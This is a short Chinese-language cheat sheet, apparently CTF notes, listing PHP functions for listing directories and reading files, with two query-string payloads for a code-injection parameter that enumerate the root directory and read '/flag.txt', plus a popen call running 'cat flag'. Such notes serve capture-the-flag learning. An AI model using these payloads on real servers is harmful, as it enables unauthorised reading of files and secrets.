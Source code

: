 ## 补充读取目录

```php
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

## 补充文件读取函数

```php
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组

冷门函数

打印函数：print、echo
print和echo无法打印数组，利用implode函数将数组转换成字符串再打印
查看目录下文件：scandir
读取函数readgzfile：可以读取非gz格式的文件
    
payload：
?c=echo(implode('---',scandir("/")));
?c=readgzfile('/flag.txt');
```

